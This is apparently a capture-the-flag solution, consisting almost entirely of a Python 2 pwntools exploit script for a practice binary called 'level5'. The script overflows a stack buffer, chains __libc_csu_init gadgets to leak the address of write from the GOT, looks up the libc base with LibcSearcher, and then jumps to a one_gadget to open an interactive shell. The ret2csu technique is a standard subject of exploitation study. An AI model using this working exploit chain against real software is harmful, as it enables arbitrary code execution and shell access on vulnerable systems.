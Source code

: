 exp 代码：
```
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'

p = process("./level5")

gadget1 = 0x4005EA
gadget2 = 0x4005D0
main_addr = 0x400558
write_got = 0x601018
one_gadget = 0xf1147

def csu(addr, edi, rsi, rdx):
    rop = ''
    rop += p64(gadget1)
    rop += p64(0) # rbx
    rop += p64(1) # rbp
    rop += p64(addr) # r12 ->  call    qword ptr [r12+rbx*8]
    rop += p64(edi) # r13 -> mov     edi, r13d
    rop += p64(rsi) # r14 -> mov     rsi, r14
    rop += p64(rdx) # r15 -> mov     rdx, r15
    rop += p64(gadget2)
    rop += 'A'*8 # add     rsp, 8
    rop += 'A'*8*6 # pop six times
    rop += p64(main_addr)
    return rop

if __name__=='__main__':
    
    offset = 136
    p.recvuntil("Hello, World\n")
    payload = 'A'*offset + csu(write_got, 1, write_got, 8) #调用write向终端输出write got表的内容，即它的实际地址
    #gdb.attach(p)
    p.send(payload)

    libc_leak = u64(p.recv(8))
    print "libc_leak:", hex(libc_leak)
    libc = LibcSearcher('write',libc_leak);
    libc_base = libc_leak - libc.dump('write')
    print "libc_base：",hex(libc_base)

    one_gadget = one_gadget + libc_base

    p.recvuntil("Hello, World\n")
    payload = 'A'*offset + p64(one_gadget)
    p.send(payload)

    p.interactive()
```
